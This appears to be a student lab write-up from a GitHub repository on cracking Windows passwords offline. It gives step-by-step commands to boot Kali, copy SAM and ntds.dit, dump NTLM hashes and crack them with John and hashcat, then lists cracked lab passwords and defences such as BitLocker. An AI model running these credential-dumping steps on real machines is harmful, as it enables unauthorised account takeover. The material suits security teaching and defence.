

# Windows Password Cracking Demonstration Assignment

> **Educational Security Research**: Understanding offline password attacks against Windows systems

[]()
[]()

## 📋 Table of Contents

- [Overview](#overview)
- [Demonstration Results](#demonstration-results)
- [Systems Tested](#systems-tested)
- [Methodology](#methodology)
- [Tools Used](#tools-used)
- [Detailed Procedures](#detailed-procedures)
- [Results Analysis](#results-analysis)
- [Defense Recommendations](#defense-recommendations)
- [Key Findings](#key-findings)
- [References](#references)
- [Disclaimer](#disclaimer)

---

## 🎯 Overview

This repository documents a comprehensive security demonstration showing how passwords can be recovered from Windows systems when an attacker has **physical access** to the machine. The demonstration tested three Windows versions:

- **Windows 7** (Legacy OS)
- **Windows 11** (Current OS)
- **Windows Server 2025** (Enterprise Active Directory)

### Educational Goals

- Understand the vulnerability of NTLM password hashing
- Learn the importance of physical security
- Demonstrate why password length matters more than complexity
- Show the effectiveness of full-disk encryption
- Illustrate real-world attack scenarios

---

## 📊 Demonstration Results

### Summary Statistics

| System | Tool | Attack Method | Passwords Cracked |
|--------|------|---------------|-------------------|
| Windows 7 | John the Ripper | Dictionary | **4** |
| Windows 11 | John the Ripper | Dictionary | **5** |
| Windows Server 2025 | Hashcat | Dictionary | **42** |
| Windows Server 2025 | Hashcat | Brute Force (7-char) | **6** |
| **TOTAL** | | | **57** |

### Attack Success Rate

```
Dictionary Attacks:  51/57 (89%) - Common passwords from wordlists
Brute Force Attacks:  6/57 (11%) - 7-character passwords with special chars
```

---

## 💻 Systems Tested

### Test Environment

```yaml
Lab Configuration:
  - Windows 7 Professional (VM)
  - Windows 11 Professional (VM)
  - Windows Server 2025 (Domain Controller)
  - Active Directory Domain: mike.itec285.test
  - Total User Accounts: 90+
```

### Attack Platform

```yaml
Kali Linux (Live USB):
  - John the Ripper 1.9.0
  - pwdump from creddump7
  - Impacket secretsdump
  - dissect.database (Server 2025 support)

Windows PC (GPU Acceleration):
  - Hashcat 6.2.6
  - NVIDIA GPU
  - Processing: Billions of hashes/second
```

---

## 🔬 Methodology

### Attack Chain Overview



### Key Techniques

1. **Offline Attack**: Bypass Windows authentication by booting from external media
2. **Hash Extraction**: Obtain NTLM hashes from SAM or Active Directory databases
3. **Dictionary Attack**: Compare hashes against 14M+ known passwords
4. **Brute Force**: Exhaustively test all 7-character combinations
5. **GPU Acceleration**: Leverage graphics card for billions of attempts/second

---

## 🛠️ Tools Used

### Password Hash Extraction

| Tool | Purpose | Usage |
|------|---------|-------|
| **Kali Linux** | Live boot environment | Bypass Windows authentication |
| **pwdump** | SAM extraction | Extract hashes from Win7/11 |
| **Impacket secretsdump** | AD extraction | Extract from Server 2025 |
| **dissect.database** | Server 2025 parser | Monkey-patch for new DB format |

### Password Cracking

| Tool | Attack Type | Speed |
|------|-------------|-------|
| **John the Ripper** | Dictionary, Rules | CPU-based |
| **Hashcat** | Dictionary, Brute Force, Mask | GPU-accelerated |
| **rockyou.txt** | Wordlist (14M passwords) | N/A |

---

## 📝 Detailed Procedures

### Part 1: Windows 7/11 Password Cracking

#### Step 1: Boot Kali Linux
```bash
# Insert Kali Linux USB and boot
# Select "Live System" from boot menu
```

#### Step 2: Mount Windows Partition
```bash
# List partitions
sudo fdisk -l

# Mount Windows partition (read-only)
sudo mount -o ro /dev/sda2 /mnt

# Verify mount
df -hv
```


#### Step 3: Extract Password Hashes
```bash
# Navigate to SAM location
cd /mnt/Windows/System32/config

# Extract hashes using pwdump
/usr/share/creddump7/pwdump.py system SAM > ~/hash.txt

# View extracted hashes
cat ~/hash.txt
```


#### Step 4: Prepare Wordlist
```bash
# Extract rockyou.txt wordlist
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
sudo mv /usr/share/wordlists/rockyou.txt ~
```


#### Step 5: Crack with John the Ripper
```bash
# Dictionary attack
john --wordlist=rockyou.txt --format=nt hash.txt

# Show cracked passwords
john --show --format=nt hash.txt
```


**Results (Windows 7):** 4 passwords cracked  
**Results (Windows 11):** 5 passwords cracked

---

### Part 2: Windows Server 2025 AD Cracking

#### Step 1: Extract AD Database
```bash
# Boot Kali Linux on Server
sudo mount -o ro /dev/sda3 /mnt

# Copy ntds.dit (Active Directory database)
cd /mnt/Windows/NTDS
cp ntds.dit ~

# Copy SYSTEM registry hive
cd /mnt/Windows/System32/config
cp SYSTEM ~
```

#### Step 2: Install Required Tools
```bash
# Update system
sudo apt update
sudo apt install -y python3-venv python3-pip

# Create virtual environment
python3 -m venv dissect-env
source dissect-env/bin/activate

# Install tools
pip install dissect.database
pip install impacket

# Verify installation
python -c "import dissect.database; print('OK')"
```

#### Step 3: Extract Hashes (Monkey-Patched)
```bash
# Run secretsdump with Server 2025 support
python -m dissect.database.ese.tools.impacket \
  /home/kali/dissect-env/bin/secretsdump.py \
  -ntds ntds.dit \
  -system SYSTEM \
  LOCAL > hashes.txt
```

#### Step 4: Clean Hash Output
```bash
# Extract only user:hash lines (remove metadata)
grep "mike.itec285.test" hashes.txt > clean_hashes.txt
```

#### Step 5: Dictionary Attack with Hashcat
```bash
# Transfer to Windows PC with GPU
# Run dictionary attack
hashcat -m 1000 -a 0 -o results.txt clean_hashes.txt rockyou.txt

# Parameters:
# -m 1000 = NTLM mode
# -a 0 = Dictionary attack
# -o results.txt = Output file
```


**Results:** 42 passwords cracked

#### Step 6: Brute Force Attack (7 characters)
```bash
# Mask attack for 7-character passwords
hashcat -m 1000 -a 3 -o brute_results.txt clean_hashes.txt ?a?a?a?a?a?a?a

# Parameters:
# -a 3 = Brute force/mask attack
# ?a = Any character (a-z, A-Z, 0-9, special)
```


**Results:** 6 additional passwords cracked

---

## 📈 Results Analysis

### Windows Server 2025 - Complete Results

#### Dictionary Attack (44 accounts)

<details>
<summary>Click to expand full list</summary>

```
24-hour              (mike.itec285.test\Timothee)
access               (mike.itec285.test\Patricia)
actuating            (mike.itec285.test\Vivie)
algorithm            (mike.itec285.test\Gram)
array                (mike.itec285.test\Carolyn)
attitude             (mike.itec285.test\Fred)
backup               (mike.itec285.test\Dwayne)
Balanced             (mike.itec285.test\Rafi)
capability           (mike.itec285.test\Darby)
capacity             (mike.itec285.test\Clarette)
Centralized          (mike.itec285.test\Berne)
circuit              (mike.itec285.test\Bernetta)
client-server        (mike.itec285.test\Kaycee)
cloud                (mike.itec285.test\Oscar)
concept              (mike.itec285.test\Violetta)
database             (mike.itec285.test\Monica)
directional          (mike.itec285.test\Tiffi)
encompassing         (mike.itec285.test\Nannette)
exuding              (mike.itec285.test\Marchelle)
firewall             (mike.itec285.test\Lucia)
functionalities      (mike.itec285.test\Regan)
global               (mike.itec285.test\Alvie)
hardware             (mike.itec285.test\Berrie)
infrastructure       (mike.itec285.test\Lynne)
monitor              (mike.itec285.test\Ronald)
network              (mike.itec285.test\Elijah)
Network1             (mike.itec285.test\Brigitte)
P@ssw0rd!            (steve)
P@ssw0rd!            (derek)
Progressive          (mike.itec285.test\Fredra)
protocol             (mike.itec285.test\Wendye)
router               (mike.itec285.test\Trevor)
security             (mike.itec285.test\Paula)
server               (mike.itec285.test\Helena)
Server12             (mike.itec285.test\Rosalie)
Secure99             (mike.itec285.test\Yvette)
software             (mike.itec285.test\Selena)
standardization      (mike.itec285.test\Taffy)
standardization      (mike.itec285.test\Jaquelyn)
support              (mike.itec285.test\Brandon)
Synergistic          (mike.itec285.test\Deborah)
systemic             (mike.itec285.test\Benedict)
utilisation          (mike.itec285.test\Chris)
website              (mike.itec285.test\Ingeborg)
```

</details>

#### Brute Force Attack (6 accounts)

```
123456a!             (mike.itec285.test\Mike)
Access7              (mike.itec285.test\Isabel)
Admin$1              (mike.itec285.test\Quentin)
Backup7              (mike.itec285.test\Natalie)
Cloud#9              (mike.itec285.test\Dorian)
Router!              (mike.itec285.test\Jerome)
```

### Password Pattern Analysis

```python
Password Categories:
├── IT Terminology (29)
│   ├── network, server, firewall, database, router
│   ├── hardware, software, infrastructure, protocol
│   └── monitor, cloud, backup, security, website
│
├── Business Jargon (9)
│   ├── synergistic, progressive, capability
│   ├── functionalities, utilisation, encompassing
│   └── actuating, exuding, directional
│
├── Word + Number (4)
│   ├── Network1, Server12, Backup7, Access7
│   └── Pattern: [Word][Digit]
│
├── Complex with Special Chars (6)
│   ├── P@ssw0rd!, 123456a!, Admin$1
│   ├── Cloud#9, Secure99, Router!
│   └── Pattern: 7 characters, mixed case + special
│
└── Password Reuse (2 instances)
    ├── P@ssw0rd! → 2 users (steve, derek)
    └── standardization → 2 users (Taffy, Jaquelyn)
```

---

## 🔒 Defense Recommendations

### Priority Implementation Order

#### 🔴 Critical (Implement Immediately)

1. **Enable BitLocker Full Disk Encryption**
   ```powershell
   # Enable BitLocker on C: drive
   Enable-BitLocker -MountPoint "C:" -EncryptionMethod XtsAes256 -UsedSpaceOnly
   ```
   - **Impact:** Completely prevents offline attacks
   - **Effort:** Low (built into Windows Pro/Enterprise)

2. **Enforce Physical Security**
   - Lock server rooms and workstations
   - Disable USB boot in BIOS
   - Set BIOS/UEFI passwords
   - Use cable locks for laptops

#### 🟡 High Priority

3. **Implement Strong Password Policy**
   ```
   Minimum Requirements:
   ├── Length: 12+ characters (not 7!)
   ├── Complexity: Upper + Lower + Number + Special
   ├── No dictionary words or IT terminology
   └── Password history: Remember last 24
   ```

4. **Deploy Multi-Factor Authentication**
   - Windows Hello (biometric)
   - Microsoft Authenticator
   - Hardware tokens (YubiKey)

5. **Use Password Blacklists**
   ```powershell
   # Block common passwords in AD
   # https://github.com/MichaelGrafnetter/DSInternals
   ```

#### 🟢 Medium Priority

6. **Provide Password Managers**
   - 1Password, Bitwarden, or LastPass
   - Generate 16+ character random passwords
   - Eliminate password reuse

7. **Regular Security Audits**
   - Quarterly password hash analysis
   - Identify weak passwords proactively
   - Monitor for password reuse

---

## 🔍 Key Findings

### 1. Physical Access = Game Over

Without full-disk encryption, physical access bypasses all Windows authentication. An attacker can:
- Boot from external media
- Access all files and databases
- Extract password hashes offline
- Crack passwords at leisure

**Mitigation:** BitLocker + Secure Boot

### 2. NTLM is Fundamentally Flawed

```
Problem: No salt in NTLM hashes
Impact: Same password = Same hash everywhere

Example:
User A: "P@ssw0rd!" → cd3786e3831bcd0385fc9b9453a4b239
User B: "P@ssw0rd!" → cd3786e3831bcd0385fc9b9453a4b239
                      ↑ Identical hashes enable rainbow tables
```

**Mitigation:** Move to modern authentication (Kerberos, FIDO2)

### 3. Length > Complexity

```
7-character complex password:  ~6 hours to crack (GPU)
12-character simple password:  ~centuries to crack

Crack Time Comparison:
├── 7 chars (mixed):     10^12 combinations →    Hours
├── 12 chars (mixed):    10^21 combinations →    Millennia
└── 16 chars (mixed):    10^28 combinations →    Heat death of universe
```

**Mitigation:** Enforce 12+ character minimum

### 4. IT Staff Choose Predictable Passwords

```
89% of cracked passwords were:
├── IT terminology (network, server, firewall)
├── Business jargon (synergistic, progressive)
└── Simple variations (Server12, Network1)

Attackers know this and target these patterns first.
```

**Mitigation:** Password blacklists + education

### 5. Password Reuse Multiplies Risk

```
Impact of "P@ssw0rd!" being used by 2 users:
├── Crack 1 password → Compromise 2 accounts
├── Lateral movement easier
└── Privilege escalation risk
```

**Mitigation:** Enforce unique passwords per user

---

## 🎓 Educational Value

### What This Demonstrates

✅ **Realistic Attack Scenarios**
- How offline attacks work
- Why physical security matters
- Real-world password patterns

✅ **Technical Skills**
- Linux system administration
- Password hash extraction
- GPU-accelerated cracking
- Active Directory security

✅ **Security Awareness**
- Password psychology
- Defense-in-depth strategy
- Risk prioritization

### What This Does NOT Cover

❌ Online password attacks (login attempt limits)  
❌ Network-based attacks (pass-the-hash)  
❌ Social engineering  
❌ Malware or ransomware  
❌ Web application attacks  

---

## 📚 References

### Tools and Software

1. [Kali Linux](https://www.kali.org/) - Penetration testing distribution
2. [John the Ripper](https://www.openwall.com/john/) - Password cracker
3. [Hashcat](https://hashcat.net/hashcat/) - Advanced password recovery
4. [Impacket](https://github.com/fortra/impacket) - Python network protocol toolkit
5. [dissect.database](https://github.com/fox-it/dissect.database) - Server 2025 parser

### Password Lists

6. [SecLists](https://github.com/danielmiessler/SecLists) - Wordlists collection
7. [Have I Been Pwned](https://haveibeenpwned.com/) - Breach database

### Technical Documentation

8. [Microsoft: NTLM Overview](https://learn.microsoft.com/en-us/windows-server/security/kerberos/ntlm-overview)
9. [Microsoft: Active Directory](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/)
10. [Microsoft: BitLocker](https://learn.microsoft.com/en-us/windows/security/operating-system-security/data-protection/bitlocker/)
11. [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) - AD PowerShell tools

### Security Standards

12. [NIST SP 800-63B](https://pages.nist.gov/800-63-3/sp800-63b.html) - Digital Identity Guidelines
13. [OWASP Top 10](https://owasp.org/Top10/) - Web security risks
14. [CIS Controls](https://www.cisecurity.org/controls/v8) - Security best practices
15. [SANS Password Security](https://www.sans.org/white-papers/) - Industry guidance

### Academic Research

16. Bonneau et al. (2012) - "The Quest to Replace Passwords"
17. Kelley et al. (2012) - "Measuring Password Strength"
18. Grassi et al. (2017) - "NIST Authentication Guidelines"

### Attack Frameworks

19. [MITRE ATT&CK T1003.003](https://attack.mitre.org/techniques/T1003/003/) - NTDS Credential Dumping
20. [MITRE ATT&CK T1110.002](https://attack.mitre.org/techniques/T1110/002/) - Password Cracking
21. [Kali Linux Docs](https://www.kali.org/docs/) - Password attacks
22. [Bitwarden Learning](https://bitwarden.com/learning/) - Password management

---

## ⚠️ Disclaimer

### Legal Notice

This demonstration was conducted in a **controlled lab environment** for **educational purposes only**.

```
✅ Authorized Activities:
├── Testing on personally-owned systems
├── Controlled lab environments
├── Educational research
└── Security awareness training

❌ Unauthorized Activities (ILLEGAL):
├── Accessing systems without permission
├── Cracking passwords on systems you don't own
├── Distributing cracked credentials
└── Using techniques for malicious purposes
```

---

**Remember:** With great power comes great responsibility. Our instructor Mike taught us this knowledge to defend, not attack.
